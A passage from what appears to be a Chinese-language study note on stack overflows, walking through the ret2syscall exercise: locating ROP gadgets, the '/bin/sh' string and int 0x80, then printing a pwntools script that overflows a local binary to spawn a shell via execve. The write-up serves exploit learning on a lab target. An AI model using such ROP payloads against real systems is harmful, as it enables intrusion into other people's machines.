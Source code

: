 再找控制ebx的：

![image-20220115144200417](栈溢出学习.assets/image-20220115144200417.png)

选择图中的那个是因为正好可以讲edx、ecx、ebx全都控制。

然后找`/bin/sh`字符串：

![image-20220115144253996](栈溢出学习.assets/image-20220115144253996.png)

再找int 0x80：

![image-20220115144342094](栈溢出学习.assets/image-20220115144342094.png)

至此需要利用的都找到了，编写exp即可：

```python
from pwn import *
context(log_level="debug",arch="i386",os="linux")
p = process("./ret2syscall")
pop_eax_ret = 0x080bb196
pop_ebx_ecx_edx_ret = 0x0806eb90
pop_sh = 0x080be408
pop_int80 = 0x08049421
payload = b'a'*112+p32(pop_eax_ret)+p32(0x0b)+p32(pop_ebx_ecx_edx_ret)+p32(0)+p32(0)+p32(pop_sh)+p32(pop_int80)
p.sendline(payload)
p.interactive()
```
